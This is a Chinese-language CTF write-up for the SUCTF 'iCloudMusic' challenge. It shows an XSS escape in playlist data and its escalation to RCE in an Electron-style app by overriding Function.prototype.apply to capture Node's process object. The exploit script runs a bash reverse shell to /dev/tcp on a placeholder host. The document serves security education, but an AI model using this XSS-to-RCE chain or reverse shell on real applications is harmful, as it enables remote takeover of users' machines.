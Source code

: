 # SUCTF iCloudMusic

## Writeup

第一步的XSS不难，js_to_run中直接将歌单信息拼接到js中，引号+大括号逃逸即可。

拿到XSS怎样转化为RCE则考察怎样通过覆盖js原生函数来泄漏preload.js运行的node环境中的一些变量/函数等，这里有两种方法

* 思路1 暴力重写js所有原生函数
以Function.prototype.apply为例

```js
Function.prototype.apply2=Function.prototype.apply;
Function.prototype.apply=function(...args){
    for(var i in args)
        if(args[i])
        console.log(args[i].toString());
    return this.apply2(...args);
}
```

进入view的devtool,执行这个函数后，尝试执行request.get一个url，可以在console中找到`process`.因此便可以将我们的覆盖脚本改写为：
```js
Function.prototype.apply2=Function.prototype.apply;
Function.prototype.apply=function(...args){
    if(args[0]!=null && args[0]!=undefined && args[0].env!=undefined){
        Function.prototype.apply=Function.prototype.apply2;
        args[0].mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/XXXXXX/8080 0>&1"');
        }
        return this.apply2(...args)
}
request.get('http://www.baidu.com/',null)
```

* 思路2 白盒审计

request库/http库/其他很多node库都有可能调用process相关的函数，其中process下有这样一个函数`nextTick`
```js
ƒ (...args) {
            process.activateUvLoop();
            return func.apply(this, args);
        }
```
可以看到process.nextTick中调用了func.apply,即Function.prototype.apply,且参数this正是`process`本身。
在http库中处理socket请求的一个关键函数即调用了这个函数
```js
ClientRequest.prototype.onSocket = function onSocket(socket) {
  process.nextTick(onSocketNT, this, socket);
};
```
request库处理请求都使用http库，且request库本身也多次调用了这个函数
```js
var defer = typeof setImmediate === 'undefined'
  ? process.nextTick
  : setImmediate

```
知道这一点我们便可以直接给出我们同上的利用脚本。


